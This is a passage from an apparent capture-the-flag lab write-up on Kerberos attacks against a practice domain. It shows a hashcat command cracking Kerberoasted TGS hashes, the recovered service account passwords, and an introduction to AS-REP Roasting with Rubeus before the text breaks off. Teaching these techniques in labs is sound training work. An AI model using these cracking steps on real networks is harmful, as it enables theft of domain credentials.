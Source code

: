 ```
                             6CDC33A2601FDA32D1716E56B437EBF6C361463296C06218D45FFE6A8F527312EEE5841FAD771DA2
                             6BBED17C5BEC35F1973F653BF8AB672738E78C3B20E02BC8072217005B8E

```
```
┌──(kali㉿kali)-[~/Downloads/learning_kerberos]
└─$ nano hash1.txt (use cyberchef to remove white spaces from hash)
                                                                                           
┌──(kali㉿kali)-[~/Downloads/learning_kerberos]
└─$ hashcat -m 13100 -a 0 hash1.txt Pass.txt  
```

```
3ea:Summer2020
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*HTTPService$CONTROLLER.local$CONTROLLE...2b83ea

```
What is the HTTPService Password? *Summer2020*

```
98d773db32ff7d05e5f420f36946ea84554ac6bfaf912e5da357b1968ea108e6a0602a700a321d155e23fb7e568c:MYPassword123#
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER...7e568c

```
What is the SQLService Password? *MYPassword123#*

### AS-REP Roasting w/ Rubeus 

Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have Kerberos pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

We'll continue using Rubeus same as we have with kerberoasting and harvesting since Rubeus has a very simple and easy to understand command to AS-REP roast and attack users with Kerberos pre-authentication disabled. After dumping the hash from Rubeus we'll use hashcat in order to crack the krbasrep5 hash.

There are other tools out as well for AS-REP Roasting such as kekeo and Impacket's GetNPUsers.py. Rubeus is easier to use because it automatically finds AS-REP Roastable users whereas with GetNPUsers you have to enumerate the users beforehand and know which users may be AS-REP Roastable.

I have already compiled and put Rubeus on the machine.

AS-REP Roasting Overview - 
